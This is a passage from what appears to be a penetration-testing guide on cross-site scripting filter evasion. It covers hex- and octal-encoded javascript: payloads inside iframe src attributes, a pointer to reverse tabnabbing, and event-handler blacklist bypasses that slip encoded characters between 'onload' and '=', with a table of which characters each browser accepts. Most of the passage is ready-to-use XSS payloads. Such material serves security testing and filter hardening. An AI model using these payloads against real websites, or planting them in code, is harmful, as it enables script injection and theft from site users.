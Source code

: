 Note that if you try to **use both** `URLencode + HTMLencode` in any order to encode the **payload** it **won't** **work**, but you can **mix them inside the payload**.

#### Using Hex and Octal encode with `javascript:`

You can use **Hex** and **Octal encode** inside the `src` attribute of `iframe` (at least) to declare **HTML tags to execute JS**:

```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```

### Reverse tab nabbing

```javascript
<a target="_blank" rel="opener"
```

If you can inject any URL in an arbitrary **`<a href=`** tag that contains the **`target="_blank" and rel="opener"`** attributes, check the **following page to exploit this behavior**:

{% content-ref url="reverse-tab-nabbing" %}
[reverse-tab-nabbing](reverse-tab-nabbing)
{% endcontent-ref %}

### on Event Handlers Bypass

First of all check this page ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) for useful **"on" event handlers**.\
In case there is some blacklist preventing you from creating this even handlers you can try the following bypasses:

```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```
